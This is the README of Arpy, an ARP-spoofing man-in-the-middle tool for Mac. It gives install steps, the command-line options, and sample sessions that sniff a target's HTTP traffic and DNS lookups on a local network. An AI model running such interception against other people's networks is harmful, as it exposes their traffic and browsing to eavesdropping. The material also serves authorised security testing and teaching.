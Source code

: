 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy
* libdnet

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
pip install scapy
```
#### libdnet
```
$ git clone https://github.com/dugsong/libdnet.git
$ cd libnet
$ ./configure && make && make install
```

## Sample Commands
```
ivanvza:~/ > sudo arpy
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --tcp                 Filters out only tcp traffic
  --udp                 Filters out only udp traffic
  -d D_PORT, --destination_port=D_PORT
                        Filter for a destination port
  -s S_PORT, --source_port=S_PORT
                        Filter for a source port
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
  -v                    Verbose scapy packet print
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3))

[Info] Found the following (IP layer): 192.168.1.3 -> 46.101.34.90
GET / HTTP/1.1
User-Agent: curl/7.37.1
Host: ivanvza.ninja
Accept: */*



[Info] Found the following (IP layer): 46.101.34.90 -> 192.168.1.3
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "2719538271"
Last-Modified: Thu, 30 Apr 2015 08:25:15 GMT
Content-Length: 3213
Date: Fri, 29 May 2015 20:15:06 GMT
Server: Microsoft IIS

<html>
     <title>><></title>
    <body>
        <pre style="line-height: 1.25; white-space: pre;">
        \          SORRY            /
         \                         /
          \    This page does     /
           ]   not exist yet.    [    ,'|
           ]                     [   /  |
           ]___               ___[ ,'   |
           ]  ]\             /[  [ |:   |
           ]  ] \           / [  [ |:   |
           ]  ]  ]         [  [  [ |:   |
           ]  ]  ]__     __[  [  [ |:   |
           ]  ]  ] ]\ _ /[ [  [  [ |:   |
           ]  ]  ] ] (#) [ [  [  [ :===='
           ]  ]  ]_].nHn.[_[  [  [
           ]  ]  ]  HHHHH. [  [  [
           ]  ] /   `HH("N  \ [  [
           ]__]/     HHH  "  \[__[
           ]         NNN         [
           ]         N/"         [
           ]         N H         [
          /          N            \
         /           q,            \
        /                           \
        </pre>
        <h3 id="list"><h3>
    </body>
<script>

// NOTE: window.RTCPeerConnection is "not a constructor" in FF22/23
var RTCPeerConnection = /*window.RTCPeerConnection ||
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff-dns-gource
[INFO] For a live gource feed run this command in parallel with this one:

tail -f /tmp/36847parsed_nmap | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -

[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3) and dst port 53)
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Port it too kali.
